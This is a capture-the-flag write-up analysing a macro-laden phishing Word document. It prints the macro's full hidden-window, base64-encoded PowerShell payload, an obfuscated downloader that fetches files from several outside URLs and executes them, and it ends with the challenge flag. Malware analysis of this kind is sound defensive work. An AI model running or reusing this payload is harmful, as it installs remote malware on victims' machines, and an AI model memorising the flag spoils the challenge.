




# Emo - Write up

## Description

WearRansom ransomware just got loose in our company. The SOC has traced the initial access to a phishing attack, a Word document with macros. Take a look at the document and see if you can find anything else about the malware and perhaps a flag.

## Initial Analysis

Upon initial analysis of the document, we performed scans to identify any hints about the attack.
One of the scans, the Oleid scan, revealed a high risk of malicious VBA (Visual Basic Application) macros.

The screenshot below shows the results of the scan:


We also did an Olefile scan to see if we can gather more information about the attacker or the file.

> Check the [olefile output file](./outputs/olefile.txt)

Without opening the file, we can see that the attacker try to bait the victim with:

`Handmade Argentina Handcrafted Frozen Towels yellow Frozen virtual Guatemala array Lesotho JBOD`

With the following command, we can determine deeply where is the threat:



From that point, we can target and dump the VBA target 11, 12 and 13.
> Check the whole [olevba output](./outputs/olevba.txt) or individually in `vba_dumps`

## Macro Analysis

To further investigate the macros, we extracted and analyzed the VBA code. The code appeared to be obfuscated, making it difficult to understand its functionality.
After a lot of try for deobfuscate the VBA code, we tried different approach:
- By checking on [VirusTotal](https://www.virustotal.com/gui/home/upload) if the file/threat is already known.
- By testing ourselve the malware (in a securised environment)

Thankfully we can gain some time, the [file is already known](https://www.virustotal.com/gui/file/c578a9fc241658517a7346a2a60236c84f0bb4919b857db226150aab4093451e/detection)



And with that, we can understand how the attack work.


## Malware Behavior

We know with the previous information, that the file `emo.doc` auto-launch a vba macro that will start a powershell script with an encoded content.


```ps1
POwersheLL -windowstyle hidden -ENCOD IABTAFYAIAAgADAAegBYACAAKABbAFQAeQBQAGUAXQAoACIAewAyAH0AewAwAH0AewA0AH0AewAzAH0AewAxAH0AIgAtAGYAIAAnAGUAJwAsACcAcgBFAEMAdABvAHIAWQAnACwAJwBzAFkAcwB0ACcALAAnAC4ASQBPAC4AZABJACcALAAnAE0AJwApACAAIAApACAAOwAgACAAIABzAGUAdAAgACAAVAB4AHkAUwBlAG8AIAAgACgAIAAgAFsAVABZAHAAZQBdACgAIgB7ADAAfQB7ADcAfQB7ADUAfQB7ADYAfQB7ADQAfQB7ADIAfQB7ADEAfQB7ADgAfQB7ADMAfQAiAC0ARgAnAFMAWQBzAFQARQAnACwAJwBUAE0AJwAsACcASQBOACcALAAnAEUAUgAnACwAJwBwAE8AJwAsACcATgBlAFQALgBzAGUAJwAsACcAUgBWAEkAQwBFACcALAAnAE0ALgAnACwAJwBBAE4AYQBHACcAKQApACAAOwAgACAAJABOAGIAZgA1AHQAZwAzAD0AKAAnAEIAOQAnACsAJwB5AHAAJwArACgAJwA5ADAAJwArACcAcwAnACkAKQA7ACQAVgB4AG4AbAByAGUAMAA9ACQAQwBsAHUAZABrAGoAeAAgACsAIABbAGMAaABhAHIAXQAoADYANAApACAAKwAgACQAUgA2AHIAMQB0AHUAeQA7ACQASwB5ADMAcQAwAGUAOAA9ACgAKAAnAFIAcQAnACsAJwBkAHgAJwApACsAJwB3AG8AJwArACcANQAnACkAOwAgACAAKAAgACAARABpAHIAIAAgAHYAYQBSAGkAQQBiAGwAZQA6ADAAWgB4ACkALgB2AGEAbAB1AEUAOgA6ACIAQwByAGUAQQBUAGAARQBgAGQASQBSAEUAYwBgAFQAYABPAHIAWQAiACgAJABIAE8ATQBFACAAKwAgACgAKAAoACcAbgBEAHAAJwArACcASgByAGIAJwApACsAKAAnAGUAJwArACcAdgBrADQAbgAnACkAKwAnAEQAJwArACcAcAAnACsAKAAnAEMAJwArACcAYwB3AHIAXwAyAGgAJwApACsAJwBuAEQAJwArACcAcAAnACkAIAAtAFIAZQBQAGwAQQBjAEUAIAAoACcAbgAnACsAJwBEAHAAJwApACwAWwBjAEgAYQBSAF0AOQAyACkAKQA7ACQARgBOADUAZwBnAG0AcwBIACAAPQAgACgAMQA4ADIALAAxADgANwAsADIAMgA5ACwAMQA0ADYALAAyADMAMQAsADEANwA3ACwAMQA1ADEALAAxADQAOQAsADEANgA2ACkAOwAkAFAAeQBvAHoAZwBlAG8APQAoACgAJwBKADUAZgAnACsAJwB5ADEAJwApACsAJwBjACcAKwAnAGMAJwApADsAIAAoACAAIAB2AGEAUgBpAEEAQgBMAEUAIABUAHgAWQBTAEUAbwAgACAAKQAuAFYAYQBsAHUARQA6ADoAIgBTAGUAYwBVAHIASQBgAFQAWQBwAGAAUgBgAE8AdABPAGMAYABvAGwAIgAgAD0AIAAoACgAJwBUAGwAJwArACcAcwAxACcAKQArACcAMgAnACkAOwAkAEYATgA1AGcAZwBtAHMASAAgACsAPQAgACgAMQA4ADYALAAxADQAMQAsADIAMgA4ACwAMQA4ADIALAAxADcANwAsADEANwAxACwAMgAyADkALAAyADMANgAsADIAMwA5ACwAMgAzADkALAAyADMAOQAsADIAMgA4ACwAMQA4ADEALAAxADgAMgAsADEANwAxACwAMgAyADkALAAyADMANAAsADIAMwA5ACwAMgAzADkALAAyADIAOAApADsAJABIAHUAYQBqAGcAYgAwAD0AKAAoACcASgBuACcAKwAnAG8AJwApACsAJwA1AGcAJwArACcAYQAxACcAKQA7ACQAQgBiADIAOAB1AG0AbwAgAD0AIAAoACgAJwBBAGwAZQAnACsAJwA3AGcAJwApACsAJwBfADgAJwApADsAJABIAHMAYwBlAF8AagBzAD0AKAAnAEsAdgAnACsAKAAnAG4AYgAnACsAJwBvAHYAXwAnACkAKQA7ACQAUwBwAGsANQAxAHUAZQA9ACgAKAAnAEMAJwArACcANwB4AG8AJwApACsAJwA5AGcAJwArACcAbAAnACkAOwAkAFMAYwB1AHMAYgBrAGoAPQAkAEgATwBNAEUAKwAoACgAJwA1ACcAKwAnAHQAJwArACgAJwBmACcAKwAnAEoAcgBiAGUAdgAnACsAJwBrACcAKQArACgAJwA0ADUAdABmACcAKwAnAEMAYwAnACsAJwB3ACcAKQArACcAcgAnACsAKAAnAF8AMgBoACcAKwAnADUAdABmACcAKQApACAALQByAEUAcABsAEEAQwBFACAAIAAoAFsAQwBoAEEAUgBdADUAMwArAFsAQwBoAEEAUgBdADEAMQA2ACsAWwBDAGgAQQBSAF0AMQAwADIAKQAsAFsAQwBoAEEAUgBdADkAMgApACsAJABCAGIAMgA4AHUAbQBvACsAKAAoACcALgBlACcAKwAnAHgAJwApACsAJwBlACcAKQA7ACQARgBOADUAZwBnAG0AcwBIACAAKwA9ACAAKAAxADgANQAsADEANwA5ACwAMQA5ADAALAAxADgANAAsADIAMgA5ACwAMQA1ADEALAAxADMAOQAsADEANQA3ACwAMQA2ADQALAAyADMANQAsADEANwA3ACwAMgAzADkALAAxADcAMQAsADEAOAAzACwAMgAzADYALAAxADQAMQAsADEAMgA4ACwAMQA4ADcALAAyADMANQAsADEAMwA0ACwAMQAyADgALAAxADUAOAAsADEANwA3ACwAMQA3ADYALAAxADMAOQApADsAJABoAGIAbQBzAGsAVgAyAFQAPQAoACgAJwBDACcAKwAnADcAeABvACcAKQArACcAOQBnACcAKwAnAGwAJwApADsAJABoAGIAbQBzAGsAVgAyAFQAPQAkAEgATwBNAEUAKwAoACgAJwA1ACcAKwAnAHQAJwArACgAJwBmACcAKwAnAEoAcgBiAGUAdgAnACsAJwBrACcAKQArACgAJwA0ADUAdABmACcAKwAnAEMAYwAnACsAJwB3ACcAKQArACcAcgAnACsAKAAnAF8AMgBoACcAKwAnADUAdABmACcAKQApACAALQByAEUAcABsAEEAQwBFACAAIAAoAFsAQwBoAEEAUgBdADUAMwArAFsAQwBoAEEAUgBdADEAMQA2ACsAWwBDAGgAQQBSAF0AMQAwADIAKQAsAFsAQwBoAEEAUgBdADkAMgApACsAJABCAGIAMgA4AHUAbQBvACsAKAAoACcALgBjACcAKwAnAG8AJwApACsAJwBuAGYAJwApADsAJABRADEAXwB5ADAANQBfAD0AKAAnAFcAJwArACgAJwA0ACcAKwAnAHEAdgB5ACcAKQArACcAegA4ACcAKQA7ACQATwBkAGIAMwBoAGYAMwA9ACYAKAAnAG4AJwArACcAZQAnACsAJwB3AC0AbwBiAGoAZQBjAHQAJwApACAATgBlAHQALgBXAEUAQgBjAGwASQBFAE4AdAA7ACQARgBOADUAZwBnAG0AcwBIACAAKwA9ACAAKAAxADgAMwAsADEANQA0ACwAMQA3ADMALAAxADIAOAAsADEANwA1ACwAMQA1ADEALAAyADMAOAAsADEANAAwACwAMQA4ADMALAAxADYAMgAsADIAMgA4ACwAMQA3ADAALAAxADcAMwAsADEANwA5ACwAMgAyADkAKQA7ACQAQQBuAGIAeQB0ADEAeQA9ACgAJwBoACcAKwAoACcAdAB0AHAAOgAnACsAJwBdAFsAJwArACcAKABzACkAXQAnACkAKwAoACgAJwB3AF0AJwArACcAWwAoACcAKQApACsAKAAoACcAcwApACcAKwAnAF0AdwAnACkAKQArACgAJwBkAGEAJwArACcALQAnACkAKwAnAGkAJwArACcAbgAnACsAJwBkAHUAJwArACgAJwBzACcAKwAnAHQAcgBpAGEAbAAuACcAKwAnAGgAJwArACcAdAAnACkAKwAnAGIAXQAnACsAKAAnAFsAKABzACkAXQAnACsAJwB3ACcAKwAnAGoAcwAnACkAKwAoACgAJwBdACcAKwAnAFsAKAAnACkAKQArACgAKAAnAHMAJwArACcAKQBdAHcAOQBJAGQATAAnACsAJwBQAF0AWwAnACsAJwAoAHMAJwArACcAKQBdAHcAJwArACcAQABoACcAKQApACsAKAAnAHQAJwArACcAdABwADoAXQAnACkAKwAoACcAWwAoAHMAJwArACcAKQBdACcAKQArACcAdwAnACsAKAAnAF0AJwArACcAWwAoAHMAKQBdACcAKQArACgAJwB3AGQAYQBwACcAKwAnAHIAbwAnACsAJwBmAGUAcwBpAG8AbgBhACcAKwAnAGwALgBoACcAKQArACcAdABiACcAKwAoACcAXQBbACgAcwAnACsAJwApACcAKwAnAF0AJwApACsAJwB3ACcAKwAoACcAZAAnACsAJwBhAHQAYQAnACkAKwAoACcANABdAFsAKABzACcAKwAnACkAXQB3AGgAJwApACsAKAAnAFcAZwBXACcAKwAnAGoAVAAnACkAKwAoACcAVgBdACcAKwAnAFsAJwApACsAKAAnACgAcwApAF0AdwBAAGgAdAB0AHAAJwArACcAcwA6AF0AWwAoAHMAJwArACcAKQBdACcAKwAnAHcAJwArACcAXQAnACkAKwAnAFsAJwArACgAJwAoAHMAKQAnACsAJwBdAHcAZABhAGcAJwArACcAcgBhACcAKQArACcAbgBpACcAKwAnAHQAJwArACgAJwBlAGcAJwArACcAaQBhACcAKQArACgAJwByAGUALgBoACcAKwAnAHQAJwApACsAJwBiAF0AJwArACgAJwBbACcAKwAnACgAcwApACcAKQArACgAJwBdAHcAdwAnACsAJwBwAC0AYQAnACsAJwBkAG0AJwArACcAaQBuAF0AWwAoAHMAKQAnACsAJwBdAHcAdAAnACkAKwAoACcAVgBdAFsAJwArACcAKABzACcAKwAnACkAJwApACsAKAAnAF0AdwBAACcAKwAnAGgAJwApACsAJwB0AHQAJwArACcAcAAnACsAKAAnADoAJwArACcAXQBbACcAKQArACgAJwAoAHMAKQBdAHcAXQBbACcAKwAnACgAcwAnACsAJwApAF0AdwB3AHcAJwArACcAdwAnACsAJwAuAG8AdQB0ACcAKwAnAHMAJwArACcAcAAnACkAKwAoACcAbwBrACcAKwAnAGUAJwApACsAJwBuAHYAJwArACcAaQAnACsAKAAnAHMAJwArACcAaQBvAG4AcwAuACcAKQArACgAJwBoAHQAYgAnACsAJwBdACcAKQArACcAWwAnACsAKAAnACgAcwApAF0AdwAnACsAJwB3AHAAJwArACcALQBpAG4AJwApACsAKAAnAGMAbAB1ACcAKwAnAGQAJwApACsAKAAnAGUAcwBdAFsAKABzACkAJwArACcAXQB3AGEAVwAnACsAJwBvACcAKwAnAE0AJwApACsAKAAnAF0AJwArACcAWwAoACcAKwAnAHMAKQBdAHcAJwApACsAKAAnAEAAJwArACcAaAB0AHQAcAA6AF0AJwApACsAKAAnAFsAKABzACkAJwArACcAXQB3AF0AWwAoACcAKwAnAHMAKQAnACkAKwAoACcAXQB3AG0AbwAnACsAJwBiAHMAJwApACsAKAAnAG8AJwArACcAdQBrAC4AaAAnACkAKwAoACgAJwB0ACcAKwAnAGIAXQBbACgAJwApACkAKwAoACgAJwBzACkAJwArACcAXQB3AHcAcAAtACcAKQApACsAJwBpAG4AJwArACcAYwAnACsAJwBsACcAKwAoACcAdQBkAGUAJwArACcAcwBdACcAKwAnAFsAJwApACsAKAAnACgAcwApAF0AJwArACcAdwAnACkAKwAoACcAVQBZACcAKwAnADMAMABSAF0AJwApACsAKAAnAFsAKABzACcAKwAnACkAXQB3ACcAKwAnAEAAJwArACcAaAAnACsAJwB0AHQAcAA6AF0AWwAnACkAKwAoACcAKAAnACsAJwBzACkAXQB3ACcAKQArACgAJwBdAFsAJwArACcAKABzACkAJwApACsAKAAnAF0AJwArACcAdwBiACcAKQArACcAaQAnACsAKAAnAGcAJwArACcAbABhAHUAZwBoACcAKwAnAHMAJwApACsAKAAoACcALgBoACcAKwAnAHQAJwArACcAYgBdAFsAKABzACcAKQApACsAKAAoACcAKQBdACcAKQApACsAKAAnAHcAcwAnACsAJwBtAGEAbABsAHAAbwB0ACcAKwAnAGEAdABvACcAKQArACcAZQBzACcAKwAoACgAJwBdACcAKwAnAFsAKABzACcAKQApACsAKAAoACcAKQBdAHcAWQBdACcAKwAnAFsAKABzACcAKwAnACkAXQB3ACcAKwAnAEAAaAAnACsAJwB0AHQAcABzADoAXQBbACgAcwApACcAKQApACsAJwBdAHcAJwArACgAJwBdAFsAKAAnACsAJwBzACkAXQB3AG4AJwArACcAZwAnACkAKwAoACcAbABsACcAKwAnAG8AJwApACsAKAAnAGcAaQBzAHQAJwArACcAaQAnACkAKwAoACcAYwBzAC4AJwArACcAaAAnACkAKwAnAHQAJwArACgAJwBiAF0AJwArACcAWwAnACsAJwAoACcAKwAnAHMAKQBdAHcAJwApACsAJwBhAGQAJwArACgAJwBtAGkAJwArACcAbgAnACkAKwAnAGUAcgAnACsAJwBdACcAKwAoACcAWwAoAHMAJwArACcAKQBdAHcAJwArACcAVwAzAG0AJwApACsAJwBrACcAKwAoACgAJwBCACcAKwAnAF0AWwAoAHMAJwApACkAKwAoACgAJwApACcAKwAnAF0AdwAnACkAKQApAC4AIgByAGUAcABgAEwAQQBjAEUAIgAoACgAJwBdACcAKwAnAFsAJwArACgAJwAoAHMAKQBdACcAKwAnAHcAJwApACkALAAoAFsAYQByAHIAYQB5AF0AKAAnAC8AJwApACwAKAAnAHgAdwAnACsAJwBlACcAKQApAFsAMABdACkALgAiAHMAUABgAGwASQBUACIAKAAkAEkAdgBnADMAegBjAHUAIAArACAAJABWAHgAbgBsAHIAZQAwACAAKwAgACQASgB6AGEAZQB3AGQAeQApADsAJABHAGMAbwB5AHYAbAB2AD0AKAAoACcASwBmACcAKwAnAF8AJwApACsAKAAnADkAJwArACcAZQB0ADEAJwApACkAOwBmAG8AcgBlAGEAYwBoACAAKAAkAEEAOABpADMAawBlADEAIABpAG4AIAAkAEEAbgBiAHkAdAAxAHkAKQB7AHQAcgB5AHsAJABPAGQAYgAzAGgAZgAzAC4AIgBkAE8AYABXAG4ATABPAEEAYABkAGYASQBMAGUAIgAoACQAQQA4AGkAMwBrAGUAMQAsACAAJABTAGMAdQBzAGIAawBqACkAOwAkAFoAaABjAG4AYQB1AHgAPQAoACgAJwBFAGsAJwArACcAawAnACkAKwAoACcAagAnACsAJwA0ADcAdAAnACkAKQA7AEkAZgAgACgAKAAmACgAJwBHAGUAdAAtAEkAJwArACcAdABlACcAKwAnAG0AJwApACAAJABTAGMAdQBzAGIAawBqACkALgAiAEwARQBuAGAARwBUAGgAIgAgAC0AZwBlACAANAA1ADEAOQA5ACkAIAB7ACQAewBBADgAYABJAGAAMwBLAEUAMQB9AC4AKAAiAHsAMQB9AHsAMgB9AHsAMAB9ACIAIAAtAGYAJwBhAHkAJwAsACcAVABvAEMAaABhACcALAAnAHIAQQByAHIAJwApAC4ASQBuAHYAbwBrAGUAKAApACAAfAAgAC4AKAAiAHsAMgB9AHsAMQB9AHsAMAB9AHsAMwB9ACIAIAAtAGYAJwAtACcALAAnAGEAYwBoACcALAAnAEYAbwByAEUAJwAsACcATwBiAGoAZQBjAHQAJwApACAALQBwAHIAbwBjAGUAcwBzACAAewAgACQAewBGAE4ANQBgAEcARwBtAGAAUwBoAH0AIAArAD0AIAAoAFsAYgB5AHQAZQBdAFsAYwBoAGEAcgBdACQAewBfAH0AIAAtAGIAeABvAHIAIAAwAHgAZABmACAAKQAgAH0AOwAgACQARgBOADUAZwBnAG0AcwBIACAAKwA9ACAAKAAyADIAOAApADsAIAAkAGIAMABSAGoAZQAgAD0AIAAgAFsAdAB5AHAAZQBdACgAIgB7ADEAfQB7ADAAfQAiACAALQBGACcAVgBlAHIAVAAnACwAJwBDAG8AbgAnACkAOwAgACAAIAAkAEIAMABSAGoARQA6ADoAIgB0AE8AYABCAGEAUwBgAEUANgA0AFMAYABUAFIASQBgAE4AZwAiACgAJAB7AGYAbgA1AGAAZwBnAG0AYABzAGgAfQApACAAfAAgAC4AKAAiAHsAMgB9AHsAMQB9AHsAMAB9ACIAIAAtAGYAIAAnAGkAbABlACcALAAnAHUAdAAtAGYAJwAsACcAbwAnACkAIAAkAHsAaABCAGAAbQBTAEsAYABWADIAVAB9ADsAIAAoAFsAdwBtAGkAYwBsAGEAcwBzAF0AKAAoACcAdwBpACcAKwAnAG4AJwApACsAKAAnADMAMgBfACcAKwAnAFAAcgBvAGMAJwArACcAZQAnACkAKwAnAHMAJwArACcAcwAnACkAKQAuACIAYwBSAGAAZQBhAFQARQAiACgAJABTAGMAdQBzAGIAawBqACkAOwAkAEcAbAB3AGsAaQA2AGEAPQAoACcASQAnACsAJwBtACcAKwAoACcAdABkACcAKwAnAHgAdgA2ACcAKQApADsAYgByAGUAYQBrADsAJABQAGYAcABiAGwAaAAxAD0AKAAnAFYAcwAnACsAKAAnAGwAYQBsACcAKwAnAGMAJwApACsAJwB1ACcAKQB9AH0AYwBhAHQAYwBoAHsAfQB9ACQARgA0ADcAaQBlAGYAMgA9ACgAKAAnAEIAbgAnACsAJwB6AGkAZAAnACkAKwAnAHIAdAAnACkA
```
> The command is also saved in [powershell.txt](./outputs/powershell.txt)

Convert the `-ENCOD` part to base64 to get the malicious code.

```bash
echo "ENCODED CONTENT" | base64 -d > ./outputs/malicious-code.txt
```

Through manual inspection and debugging, we were able to identify certain suspicious patterns and behaviors.

## Flag Discovery

In [`proper-code.txt`](./outputs/proper-code.txt), we can see an analyse of the malicious code with commentary.



With that version of the code, we understand that the Powershell script will convert an Array of code into character and apply a Xor opperator with the key `0xdf`

By executing the script [flag](./flag.ps1), we can see the result of that part of the malicious code.


<details>
<summary>Flag</summary>



```delphi
HTB{4n0th3R_d4Y_AnoThEr_pH1Sh}
```
</details>
